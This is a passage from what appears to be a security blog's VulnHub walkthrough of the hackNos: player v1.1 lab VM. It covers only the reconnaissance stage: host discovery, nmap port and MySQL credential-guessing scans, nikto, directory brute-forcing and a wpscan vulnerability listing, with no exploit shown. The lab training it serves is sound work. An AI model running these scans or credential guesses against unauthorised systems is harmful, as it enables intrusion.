<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/hackNos-player-1.1</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/hackNos-player-1.1</h1>

<p>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/hackNos-player-1.1/hackNos-player-1.1.html">+ hackNos: player v1.1 - 2021.12.30 Thursday</a>
</p>

## Description

> Difficulty: Intermediate
> 
> Learning: Web Application | Enumerate | Good Enumeration | Privilege Escalation
> 
> Overview:
> 
> Tested: VirtualBox/VMWare
> 
> Virtual Machine: - Format: Virtual Machine Virtualbox OVA
> 
> Networking: - DHCP Service: Enabled
> 
> twitter @rahul_gehlaut
> 
> \## Changelog v1.1 - 2020-04-10 v1.0 - 2020-04-07
> 

[VulnHub: https://www.vulnhub.com/entry/hacknos-player-v11,459/](https://www.vulnhub.com/entry/hacknos-player-v11,459/)
[Series: https://www.vulnhub.com/series/hacknos,257/](https://www.vulnhub.com/series/hacknos,257/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.85
                                                                                                                                                                                                                                           
```

Alternatively:

```shell
sudo netdiscover -r 192.168.56.1/24 -i eth1
 
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                    
                                                                                                                  
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor                                                 
 192.168.56.2    08:00:27:f7:0e:49      1      60  PCS Systemtechnik GmbH                                         
 192.168.56.85   08:00:27:ed:b6:00      1      60  PCS Systemtechnik GmbH                                         

```

```shell
sudo netdiscover -r 192.168.56.1/24 -i eth1 -PN
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
 192.168.56.2    08:00:27:f7:0e:49      1      60  PCS Systemtechnik GmbH
 192.168.56.85   08:00:27:ed:b6:00      1      60  PCS Systemtechnik GmbH

-- Active scan completed, 3 Hosts found.
                                                                                                                   
```

```shell
sudo arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 08:00:27:13:e5:7a, IPv4: 192.168.56.70
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.2    08:00:27:f7:0e:49       PCS Systemtechnik GmbH
192.168.56.85   08:00:27:ed:b6:00       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.980 seconds (129.29 hosts/sec). 3 responded
                                                                                                                   
```

OR even simple nmap would have sufficed

```shell
nmap 192.168.56.1/24 -sn -n
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-30 11:16 IST
Nmap scan report for 192.168.56.70
Host is up (0.00098s latency).
Nmap scan report for 192.168.56.85
Host is up (0.0017s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.45 seconds
                                                                                                                   
```

Setting up the IPs and ports.

```shell
export RHOST="192.168.56.85"    
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST  
firing nmap 192.168.56.85 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 15:25 IST
Nmap scan report for 192.168.56.85
Host is up (0.00020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
                                                                                                                                                                                                                                           
```

```shell
_ntd $RHOST
firing nmap 192.168.56.85 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 15:25 IST
Nmap scan report for 192.168.56.85
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, SupportsCompression, FoundRows, ConnectWithDatabase, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, Speaks41ProtocolOld, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: h0Q*{Q`q6X:X.y9N^m++
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
                                                                                                                                                                                                                                           
```

```shell
sudo nmap $RHOST -n -p80,3306 -Pn -T4 --min-rate=5000 --top-ports=100 -sVC -A --script=*enum* | tee nmap.deep-enum.txt
[sudo] password for f0c1s: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 15:26 IST
Nmap scan report for 192.168.56.85
Host is up (0.00088s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
MAC Address: 08:00:27:ED:B6:00 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.88 ms 192.168.56.85

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.79 seconds
                                                                                                                                                                                                                                           
```

```shell
sudo nmap $RHOST -n -p- -Pn -T4 --min-rate=5000 --top-ports=100 -sU --open | tee nmap.udp.top-100.txt               
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 15:26 IST
Nmap scan report for 192.168.56.85
Host is up (0.00045s latency).
All 100 scanned ports on 192.168.56.85 are in ignored states.
Not shown: 94 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
MAC Address: 08:00:27:ED:B6:00 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
                                                                                                                                                                                                                                           
```

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.85
+ Target Hostname:    192.168.56.85
+ Target Port:        80
+ Start Time:         2021-12-28 15:26:40 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 2962, size: 59d6a8bf07689, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2021-12-28 15:28:05 (GMT5.5) (85 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


```shell
dirb http://$RHOST

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Dec 28 15:31:48 2021
URL_BASE: http://192.168.56.85/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.85/ ----
+ http://192.168.56.85/index.html (CODE:200|SIZE:10594)                                                           
==> DIRECTORY: http://192.168.56.85/javascript/                                                                   
+ http://192.168.56.85/server-status (CODE:403|SIZE:278)                                                          
                                                                                                                  
---- Entering directory: http://192.168.56.85/javascript/ ----
==> DIRECTORY: http://192.168.56.85/javascript/jquery/                                                            
                                                                                                                  
---- Entering directory: http://192.168.56.85/javascript/jquery/ ----
+ http://192.168.56.85/javascript/jquery/jquery (CODE:200|SIZE:271809)                                            
                                                                                                                  
-----------------
END_TIME: Tue Dec 28 15:31:52 2021
DOWNLOADED: 13836 - FOUND: 3
                                                                                                                   
```

```shell
feroxbuster -q -u http://$RHOST -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      319c http://192.168.56.85/javascript
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_85-1640685782.state ...
Scanning: http://192.168.56.85
Scanning: http://192.168.56.85/javascript
```



```shell
mysql -h $RHOST -u root  -p               
Enter password: 
ERROR 1698 (28000): Access denied for user 'root'@'192.168.56.70'
```





```shell
wpscan --url http://192.168.56.85/g@web/ --api-token="$WP_API_TOKEN" --enumerate ap,at,cb,dbe,u          
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.85/g@web/ [192.168.56.85]
[+] Started: Tue Dec 28 15:39:53 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.85/g@web/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.85/g@web/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Registration is enabled: http://192.168.56.85/g@web/wp-login.php?action=register
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.85/g@web/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.85/g@web/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.56.85/g@web/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 |  - http://192.168.56.85/g@web/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 |
 | [!] 16 vulnerabilities identified:
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.3.7
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.3.8
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.3.10
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/

[+] WordPress theme in use: twentyseventeen
 | Location: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wp-support-plus-responsive-ticket-system
 | Location: http://192.168.56.85/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
